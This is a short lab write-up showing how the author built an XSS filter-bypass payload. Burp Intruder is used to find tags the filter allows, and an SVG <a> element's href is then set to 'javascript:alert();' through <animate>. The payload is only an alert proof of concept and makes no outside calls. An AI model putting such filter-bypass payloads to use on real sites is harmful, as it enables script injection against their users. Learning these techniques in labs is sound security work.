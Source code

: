 Through Burp Intruder, I found that the following tags are not blocked:

* `<a>`
* `<animate>`
* `<image>`
* `<svg>`
* `<title>`

So I guess I need to find an attribute that allows code execution when an image is clicked or something like that,  
but first I need to learn exactly what each tag means and does.

So I think I can set the `href` attribute of `<a>` using `<animate>`, maybe something like:

```html
<a>
    <animate attributeName="href" values="javascript:alert();" />
    Click me
</a>
```

But the text "Click me" doesn't show up, so I put it in `<p>` and then it did show:

```html
<a>
    <animate attributeName="href" values="javascript:alert();" />
    <p>Click me</p>
</a>
```

But it's not clickable, which means something about the `<animate>` tag is wrong.  
So I looked into it, and it looks like I'm missing `<svg>` tag:

```html
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert();" />
        <p>Click me</p>
    </a>
</svg>
```

But then the `<p>` tag turned red (in vscode), so I guess I can't use that inside `<svg>`. I looked for other text tags by Googling the following:

> text inside svg

and finally ended up with `<text>`:

```html
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert();" />
        <text>Click me</text>
    </a>
</svg>
```

This solved the lab, but the text is very small. So for my own knowledge I looked a bit more into `<text>`,  
and my final answer is:

```html
<svg>
    <a>
        <animate attributeName="href" values="javascript:alert();" />
        <text x=50 y=50>Click me</text>
    </a>
</svg>
```
